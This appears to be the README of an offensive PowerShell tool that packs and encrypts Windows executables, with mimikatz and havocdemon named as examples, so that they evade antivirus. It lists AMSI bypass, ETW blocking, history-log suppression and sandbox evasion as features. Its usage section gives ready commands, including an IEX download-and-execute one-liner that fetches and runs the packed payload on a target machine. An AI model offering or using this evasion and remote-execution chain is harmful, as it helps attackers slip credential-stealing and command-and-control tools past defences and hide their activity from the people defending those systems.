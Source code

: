### Invoke-PoSH-PePacker.ps1
--------------------------------------
'Invoke-PoSH-PePacker' allows to pack and encrypt offensive PE files in order to bypass AV solutions such as Windows Defender.

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - Reflective PE injection (based on an updated version of 'Invoke-ReflectivePEInjection')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - Step 1. Generate a packed & encrypted version of a PE file (e.g. mimikatz.exe, havocdemon.exe) stored locally or on a remote web server
```
PS C:\> Import-Module ./Invoke-PoSH-PePacker.ps1
PS C:\> Invoke-PoSH-PePacker -FilePath C:\path\PE-file.exe -OutFile C:\path\Packed-PE-file.ps1
--- or ---
PS C:\> Invoke-PoSH-PePacker -FilePath C:\path\PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 -sandbox
``` 
```
PS C:\> Import-Module ./Invoke-PoSH-PePacker.ps1
PS C:\> Invoke-PoSH-PePacker -FileUrl https://URL/PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 
--- or ---
PS C:\> Invoke-PoSH-PePacker -FileUrl https://URL/PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 -sandbox
```
  - Step 2. Download & execute the packed & encrypted PowerShell script on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-PE-file.ps1'); Execute-PE
--- or ---
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-PE-file.ps1'); Execute-PE argument1 argument2 ...
--- or ---
PS C:\> WGET -URI https://URL/Packed-PE-file.ps1 -OutFile C:\temp\Packed-PE-file.ps1
PS C:\> Import-Module C:\temp\Packed-PE-file.ps1
PS C:\> Execute-PE
        or 
PS C:\> Execute-PE argument1 argument2 ...
``` 

#### LICENSE
  - GNU General Public License v3.0
